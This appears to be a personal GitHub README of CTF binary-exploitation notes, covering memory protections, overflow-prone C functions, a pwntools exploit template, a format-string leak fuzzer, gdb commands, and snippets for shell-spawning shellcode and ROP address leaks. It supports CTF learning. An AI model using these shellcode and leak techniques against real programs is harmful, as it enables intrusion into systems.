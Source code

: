 # writeup and some notes (last update 17 December 2023)

## PWN Notes

1. Run `checksec` check the properties of executable of binary security.
	- **Stack Canaries** = a secret value placed on the stack which changes every time the program is started. the stack canary is checked and if it appears to be modified, the program exits immeadiately.
	- **Nx** = stored input or data cannot be executed as code
	- **Address Space Layout Randomization (ASLR)** = The randomization of the place in memory where the program, shared libraries, the stack, and the heap are.
	- **RELRO** = makes binary sections read-only.
2. Function that can lead to buffer overflow
- scanf
- read
- strcat
- fread
- fgets
- sprintf
- strcpy
- gets
- memcpy
- memmove
- strncpy
- snprintf
- strncat
4. Functions in assembly x86
	```shell
	; write the string to stdout  
	mov eax, 4 ; system call for write  
	mov ebx, 1 ; file descriptor for stdout  
	mov ecx, hello ; address of the string  
	mov edx, len ; number of bytes to write  
	int 80h ; invoke the kernel to perform the system call  
	  
	; exit with success  
	mov eax, 1 ; system call for exit  
	xor ebx, ebx ; return code of 0 for success  
	int 80h ; invoke the kernel to perform the system call
	
	; read input
	mov    edx,0x3c # Store 0x3c in edx
	mov    eax,0x3 # syscall for read()
	int    0x80 # invoke syscall
	add    esp,0x3c # esp increase
	``` 
5. Script i normally use 
- Template i got from crypto cat
``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './<file>'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 20

payload = flat(

)

# Save the payload to file
write('payload', payload)
# Send the payload
io.sendline( payload)
# Receive the flag
io.interactive()
```
- fuzzer (%p for address leaking, %s for secrets leaking)
```python
from pwn import *
import os

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./pakmat_burger', checksec=False)
os.environ["SECRET_MESSAGE"] = "YOKO"

# Let's fuzz 100 values
for i in range(1,100):
    try:
        p = process(level='error')
        p.sendlineafter(b': ', '%{}$p'.format(i).encode())
        result = p.recv().split(b' ')
        result = result[1].split(b',')
        leak_char = result[0].ljust(8,b"\x00")
        print(str(i) + ': ' + str(leak_char).strip())
        p.close()
    except EOFError:
        pass
```
6. gdb-pwndbg useful commands
```bash
  run <<< $(python <code>) #input as stdin
  run < ./payload.txt #input as stdin
  run $(python <code>) #input as arg
  canary # check stack canary address
  x/100x $rsp # check 100 bytes in rsp 
```
7. pwntools functions
```python
# example payload converter func
payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)
# shellcode using asm
asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))
shellcode = asm(shellcraft.cat('flag.txt'))
shellcode = asm(shellcraft.sh())
# getting address
## sample getting address
output = io.recv().split(b'\n')
print("output : ", output)
leak_puts = u64(output[0].ljust(8,b"\x00")) # do this if theres no \n
leak_printf = u64(output[1].ljust(8,b"\x00"))
leak = u64(p.recvline().strip().ljust(8,b'\0')) # do this if theres \n at the end
main = p64(elf.symbols.main)
plt_puts = p64(elf.plt.puts)
got_puts = p64(elf.got.puts)
# for leaking address, pop_rdi(pop rdi, ret; gadget)
secondPayload += pop_rdi + got_puts + plt_puts 
# output format i used for leaking address
leak_puts = u64(output[0].ljust(8,b"\x00"))
leak_printf = u64(output[1].ljust(8,b"\x00"))
print("puts {}".format(str(hex(leak_puts))))
print("printf {}".format(str(hex(leak_printf))))
```

## Pwn Resources
- https://github.com/Crypto-Cat/
- https://zeynarz.github.io/posts/wgmy23/
- https://razvioverflow.github.io/tryhackme/pwn101.html
